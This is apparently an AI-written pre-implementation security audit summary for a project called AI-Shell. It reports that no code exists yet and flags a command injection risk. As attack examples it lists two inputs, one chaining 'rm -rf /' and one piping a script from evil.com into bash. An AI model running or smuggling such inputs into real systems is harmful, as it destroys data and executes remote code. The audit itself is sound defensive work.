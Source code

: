 # AI-Shell Comprehensive Review Summary

**Review Date:** 2025-10-03
**Reviewer:** Code Review Agent
**Review Type:** Pre-Implementation Security Audit & Code Quality Assessment

---

## 🚨 CRITICAL FINDING

### NO CODE HAS BEEN IMPLEMENTED

The AI-Shell project consists of:
- ✅ **3 comprehensive architecture documents** (18,000+ lines)
- ✅ **10 empty source directories** created
- ❌ **0 lines of actual code**
- ❌ **0 test files**
- ❌ **0 configuration files**

**This review analyzes the proposed architecture and identifies critical issues that MUST be addressed before any implementation begins.**

---

## 📊 Security Audit Results

### Overall Security Score: **2/10 - CRITICAL**

### Vulnerability Summary

| Severity | Count | Status |
|----------|-------|--------|
| 🔴 Critical | 5 | Must fix before implementation |
| 🟠 High | 3 | Must fix in first sprint |
| 🟡 Medium | 2 | Address during development |

### Critical Vulnerabilities Identified

#### 1. **Command Injection (CRITICAL)**
- **Risk:** Remote Code Execution, System Compromise
- **Location:** MCP Shell Integration
- **Issue:** No input validation or sanitization
- **Attack Vector:**
  ```bash
  User input: "ls; rm -rf /"
  User input: "$(curl evil.com/shell.sh | bash)"
  ```
- **Fix Required:** Implement command whitelist + argument sanitization
